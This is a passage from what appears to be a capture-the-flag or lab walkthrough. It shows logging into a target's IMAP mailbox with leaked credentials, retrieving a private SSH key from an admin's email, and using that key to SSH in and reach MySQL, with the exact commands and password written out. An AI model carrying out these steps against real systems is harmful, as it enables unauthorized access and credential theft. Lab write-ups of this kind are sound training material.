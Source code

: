 2. **Logged into IMAP to Fetch SSH Key**  
   Used leaked credentials `tom:NMds732Js2761` to authenticate.  
   Command used:  
   `openssl s_client -connect 10.129.184.197:imaps`  
   Login string:  
   `1 LOGIN tom NMds732Js2761`  

   Found inbox message from admin containing private SSH key.

   ![](_resources/12368f31eb62fb13035bc55ff288aea9.png)  
   ![](_resources/0aa07277c524f321052e7cce3df90f2b.png)  

3. **SSH into Tom’s Account & Query MySQL**  
   SSH into the machine using the stolen key, then access MySQL and extract credentials:

   **SSH & MySQL Login:**
   ```bash
   ssh -i id_rsa_tom tom@10.129.184.197
   mysql -u tom -p
   # Password: NMds732Js2761
   ```
